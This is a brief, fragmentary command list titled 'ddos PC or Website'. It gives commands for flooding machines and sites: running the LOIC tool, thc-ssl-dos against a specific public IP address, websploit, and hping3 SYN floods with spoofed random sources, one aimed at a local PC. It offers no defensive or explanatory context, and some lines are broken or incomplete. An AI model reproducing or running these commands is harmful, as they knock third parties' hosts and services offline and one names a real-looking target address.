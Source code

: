 # ddos PC or Website
#install Loic
#apt-get install git-core monodevelop

cd loic/ && ./loic.sh run
thc-ssl-dos -l 200 103.53.198.154 80 --accept
websploit
hping3 -c 100000 -d 120 -S -p 80 --flood --rand-source 
hping3 -c 1000000 --flood -S 192.168.1.108 > For Pc
